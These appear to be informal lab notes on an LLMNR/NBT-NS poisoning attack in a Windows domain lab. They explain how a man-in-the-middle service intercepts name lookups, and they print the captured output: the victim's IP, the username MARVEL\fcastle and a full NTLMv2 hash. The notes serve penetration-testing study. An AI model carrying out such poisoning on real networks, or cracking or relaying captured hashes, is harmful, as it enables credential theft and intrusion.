

our ip address iis on ethernet 0 interface

once llmnr fails so start nbt-ns is went to and so on

these are the bunch of servers its looking up on and all we are doing is running the servide in the middle to see if we intercept anything

it pullls down the ip address of the machine we are attacking
thr username and the hash as well
thus we got the username and the hashes we got as follows
[SMB] NTLMv2-SSP Client : 192.168.50.131
[SMB] NTLMv2-SSP Username : MARVEL\fcastle
[SMB] NTLMv2-SSP Hash : fcastle::MARVEL:39fb8c24395fc9dc:2AF24B8D611A6F281D020680A2BD917C:0101000000000000C0653150DE09D2016A309BF6AFAB5770000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D201060004000200000008003000300000000000000001000000002000008AE1B2C221AC76436C1A709B9E84232D8E4193DDF202503673203A49582DB06F0A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00350030002E003100320038000000000000000000